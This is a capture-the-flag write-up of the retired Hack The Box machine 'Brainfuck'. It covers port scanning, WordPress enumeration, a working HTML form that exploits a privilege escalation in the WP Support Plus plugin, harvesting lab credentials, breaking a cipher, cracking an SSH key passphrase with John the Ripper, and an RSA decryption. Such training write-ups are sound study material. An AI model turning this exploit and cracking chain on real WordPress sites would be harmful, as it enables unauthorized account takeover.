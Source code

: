 # Brainfuck

This is the write-up for the box Brainfuck that got retired at the 26th August 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.17    brainfuck.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/brainfuck.nmap 10.10.10.17
```

```markdown
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:d0:b3:34:e9:a5:37:c5:ac:b9:80:df:2a:54:a5:f0 (RSA)
|   256 6b:d5:dc:15:3a:66:7a:f4:19:91:5d:73:85:b2:4c:b2 (ECDSA)
|_  256 23:f5:a3:33:33:9d:76:d5:f2:ea:69:71:e3:4e:8e:02 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: brainfuck, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
110/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) TOP UIDL RESP-CODES USER PIPELINING AUTH-RESP-CODE CAPA
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: SASL-IR ENABLE LOGIN-REFERRALS IMAP4rev1 more capabilities IDLE ID Pre-login LITERAL+ listed have AUTH=PLAINA0001 OK post-login
443/tcp open  ssl/http nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title: Welcome to nginx!
| ssl-cert: Subject: commonName=brainfuck.htb/organizationName=Brainfuck Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.brainfuck.htb, DNS:sup3rs3cr3t.brainfuck.htb
| Not valid before: 2017-04-13T11:19:29
|_Not valid after:  2027-04-11T11:19:29
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|_  http/1.1
Service Info: Host:  brainfuck; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTPS (Port 443)

The Nmap output gives us a subdomain with an interesting name that we will put into our hosts file, too.
Browsing to the web page on the IP address gives us a default nginx installation page.

Browsing to the web page with the DNS name _brainfuck.htb_ gives us a custom WordPress site of the fictional company **Brainfuck Ltd.** with one article that has an email address in it.
> orestis@brainfuck.htb

![WordPress page](https://kyuu-ji.github.io/htb-write-up/brainfuck/brainfuck_wordpress-1.png)

Enumerate WordPress:
 ```markdown
wpscan --url https://brainfuck.htb --disable-tls-checks
```

The version is 4.7.3 and it found the users _admin_ and _administrator_ and the plugin **WP Support Plus Responsive Ticket System version 7.1.3** is installed.
Looking for vulnerabilities in this plugin we find one:
 ```markdown
searchsploit "WP Support Plus"
```

The vulnerability is called _WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation_ and we modify the exploit code to our needs:
 ```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="orestis@brainfuck.htb">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

We can host this on the _Python SimpleHTTPServer_ and click Login on the form. This will set the session cookies to administrative session cookies and we get logged in on the WordPress page as _admin_.

![WordPress Admin page](https://kyuu-ji.github.io/htb-write-up/brainfuck/brainfuck_wordpress-2.png)

To get code execution in WordPress we can go into _Appearance --> Editor_ and edit the PHP files normally but in this case, all the files are not writable, so this will not work.

As the first article on the page mentioned that SMTP integration is ready, we can look into those settings in _Settings --> Easy WP SMTP_.
In here we get the SMTP username that we got before and a masked password. The masked password can be read by looking at the field with the Developer Tools in the browser:

![WordPress Admin page](https://kyuu-ji.github.io/htb-write-up/brainfuck/brainfuck_wordpress-3.png)

These are the credentials for SMTP:
> orestis:kHGuERB29DNiNE

## Checking SMTP (Port 25)

We can use any mail client to connect to the mail server _brainfuck.htb_ with the gathered credentials.
After configuring the mail client we can see the inbox of _Orestis_ and he has two emails. The mail from _root@brainfuck.htb_ is very interesting because there are credentials for a secret forum:

![WordPress Admin page](https://kyuu-ji.github.io/htb-write-up/brainfuck/brainfuck_mails.png)

```markdown
username: orestis
password: kIEnnfEKJ#9UmdO
```

## Checking the Subdomain on HTTPS (Port 443)

Browsing to the subdomain _sup3rs3cr3t.brainfuck.htb_ we are presented with a **Super Secret Forum** where we can try the gathered credentials.
They work and there are two threads to examine:

The first thread is called **SSH Access** and it tells us that SSH authentication only works with keys.

![WordPress Admin page](https://kyuu-ji.github.io/htb-write-up/brainfuck/brainfuck_forum-1.png)

The second thread is called **Key** and is the encrypted thread that _Orestis_ is talking about:

![WordPress Admin page](https://kyuu-ji.github.io/htb-write-up/brainfuck/brainfuck_forum-2.png)

They write in a decoded type of language that looks like some kind of cipher that involves the alphabet because there are still whitespaces and numbers like the IP address are not decoded.

### Decoding the messages

Our clue for decoding is that _Orestis_ always ends his messages with the signature _"Orestis - Hacking for fun and profit"_. This is the same method that was used to decipher the **Enigma**.

The [One Time Pad Tool from Rumkin](http://rumkin.com/tools/cipher/otp.php) will help us to get the key.

```markdown
Plaintext: Orestis - Hacking for fun and profit
Encrypted: Pieagnm - Jkoijeg nbw zwx mle grwsnn
```

By comparing the letters and putting them into the tool one by one we get the key.
```markdown
# Decrypt

Your message:  P i e a g n m J k o i j e g n b w z w x m l e g r w s n n
The pad:       O r e s t i s H a c k i n g f o r f u n a n d p r o f i t
------------------------------------------------------------------------
Key:           B r a i n f u c k m y b r a i n f u c k m y b r a i n f u
```

The key we can decode the text with is:
> fuckmybrain

Now we can use the [Keyed Vigenere Tool from Rumkin](http://rumkin.com/tools/cipher/vigenere-keyed.php) to decode the messages:

![WordPress Admin page](https://kyuu-ji.github.io/htb-write-up/brainfuck/brainfuck_forum-3.png)

This is the most important message:

![WordPress Admin page](https://kyuu-ji.github.io/htb-write-up/brainfuck/brainfuck_forum-4.png)

Lets browse to the URL https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa and download the _id_rsa_ file.

### Decrypting the RSA key

If we look at the RSA key that we got, it is _AES-128-CBC_ encrypted and we need to decrypt it first:
```markdown
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6904FEF19397786F75BE2D7762AE7382
```

We can use [sshng2john](https://github.com/stricture/hashstack-server-plugin-jtr/blob/master/scrapers/sshng2john.py) to bring this to a format that is crackable:
```markdown
python sshng2john.py id_rsa
```

And then use the password cracking tool **JohnTheRipper** to crack it:
```markdown
john id_rsa.encrypted --wordlist=/usr/share/wordlists/rockyou.txt
```

After some time we cracked the password for this key:
> 3poulakia!

## Checking SSH (Port 22)

Now SSH login works with the private key and the password:
```markdown
chmod 600 id_rsa

ssh -i id_rsa orestis@10.10.10.17
```

## Privilege Escalation

In the home folder of _Orestis_ there are these three files:
- debug.text
- output.text
- encrypt.sage

Looking at the _encrypt.sage_ file, we can see that it calculates something with the variables **p, q, e, n phi**.
Those are usually used in **RSA Encryption**, so this is some kind of RSA attack.

In this repository there is the script **brainfuck_decrypt.py** that uses the variables from those files to calculate the key.
The 3 lines in _debug.txt_ are the variables for p, q and e.
The number in _output.txt_ is the variable for ct.
```markdown
python brainfuck_decrypt.py
```

After running this, we get the value for pt which stands for Plaintext:
> 24604052029401386049980296953784287079059245867880966944246662849341507003750

This has to get converted into ASCII so we can read it.
```python
pt = 24604052029401386049980296953784287079059245867880966944246662849341507003750
str(hex(pt)[2:-1]).decode('hex')
```

The result is a 32 character long string, which is probably a **MD5 hash**.
This MD5 hash is the content of the root.txt flag!
